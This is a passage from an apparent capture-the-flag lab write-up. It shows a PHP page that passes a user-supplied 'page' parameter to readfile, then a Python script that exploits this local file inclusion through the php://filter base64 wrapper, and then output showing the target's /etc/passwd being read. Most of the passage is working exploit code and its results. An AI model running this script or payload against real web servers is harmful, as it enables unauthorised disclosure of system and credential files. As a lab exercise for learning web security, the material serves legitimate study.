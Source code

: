 ```tsx
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

Ok, it worked! Modify the script:

```python
import requests
import base64

url = "http://{IP_ADDRESS}/index.php?page=php://filter/convert.base64-encode/resource="

file_input = input("File input: ")
print(f"Sending request: {url + file_input.strip()}")

try:
	response = requests.get(url + file_input.strip(), timeout=2.5)
	if response:
		print("File content: \n")
		content_decode = base64.b64decode(response.text)
		print(content_decode.decode('utf-8'))
except requests.exceptions.RequestException as e:
	raise SystemExit(e)
except requests.exceptions.Timeout:
	print("Timeout!")
except KeyboardInterrupt:
	print("Bye!")
```

Output:

```tsx
┌──(kali㉿kali)-[~/SublimeText]
└─$ python3 fli.py
File input: /etc/passwd
Sending request: http://10.10.174.11/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
File content: 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
```